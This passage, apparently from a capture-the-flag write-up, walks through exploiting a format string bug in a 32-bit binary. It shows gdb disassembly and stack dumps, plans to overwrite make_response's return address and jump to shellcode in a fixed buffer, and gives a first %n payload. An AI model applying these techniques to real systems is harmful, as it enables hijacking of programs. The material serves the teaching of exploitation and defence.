 ```
   0x08048546 <+37>:    ret    
End of assembler dump.
(gdb) disas make_response
Dump of assembler code for function make_response:
   0x080484fd <+0>: push   ebp
   0x080484fe <+1>: mov    ebp,esp
   0x08048500 <+3>: sub    esp,0x18
   0x08048503 <+6>: mov    DWORD PTR [esp+0x8],0x804a080
   0x0804850b <+14>:    mov    DWORD PTR [esp+0x4],0x400
   0x08048513 <+22>:    mov    DWORD PTR [esp],0x804a480
   0x0804851a <+29>:    call   0x80483f0 <snprintf@plt>
   0x0804851f <+34>:    leave  
   0x08048520 <+35>:    ret    
```

The call is made from the function `make_response`, at address `0x0804851a`. We can set a breakpoint there are have a look at the stack before the call:
```
(gdb) break *0x0804851a
(gdb) run
test
Breakpoint 1, 0x0804851a in make_response ()
(gdb) x/32xw $esp
0xffffd440: 0x0804a480  0x00000400  0x0804a080  0xf7eb2ada
0xffffd450: 0xf7fb2440  0x0804a080  0xffffd478  0x0804852c
0xffffd460: 0x00000001  0x00000000  0x0804a080  0xf7fb1ff4
0xffffd470: 0x00000000  0x00000000  0xffffd498  0x08048557
0xffffd480: 0x0804a080  0x00000400  0xf7fb2440  0xf7fb1ff4
0xffffd490: 0x08048580  0x00000000  0xffffd518  0xf7e68e46
0xffffd4a0: 0x00000001  0xffffd544  0xffffd54c  0xf7fdb860
0xffffd4b0: 0xf7ff4821  0xffffffff  0xf7ffcff4  0x080482b1
```

We can see a couple of interesting things here:
- if we compare the values from gdb and those from simply executing the binary, we see different values. This indicates that ASLR is active, so that each execution, the addresses will be different. Thye might still be related though.
- `0x0804a080` occurs in both executions in the same spot. GDB tells us this is the address of the buffer that holds our format string. This is useful, because we can use this to store our shellcode and jump to the fixed address.
- `0x0804852c` also occurs in both executions. This is the return address of the function `make_response`; this is what we want to overwrite. It's at address `0xffffd45c` in GDB, but will change in actual execution.

# Step 1: Setting up the target address
Our first step is to get the target address on the stack. We can see some addresses that resemble the target address in GDB, but nothing that points exactly where we need it. Because we get to input multiple strings, we can just use a specially crafted format string to put the address we want on the stack, and deal with overwriting the target address later (see step 2). 

We are looking for a value on the stack that points to another value on the stack, that is close to our target address. I chose value `0xffffd478` at address `0xffffd458`, which would be the 4th format string argument. If we dereference that value, we see `0xffffd498` (close to our target address of `0xffffd45c`). Let's see if we can use that to write something to the stack (stack view is shown after call to format string function):
```
(gdb) run
%x%x%x%n
Breakpoint 1, 0x0804851a in make_response ()
(gdb) ni
(gdb) x/32xw $esp
0xffffd440: 0x0804a480  0x00000400  0x0804a080  0xf7eb2ada
0xffffd450: 0xf7fb2440  0x0804852c  0xffffd478  0x0804852c
0xffffd460: 0x00000001  0x00000000  0x0804a080  0xf7fb1ff4
```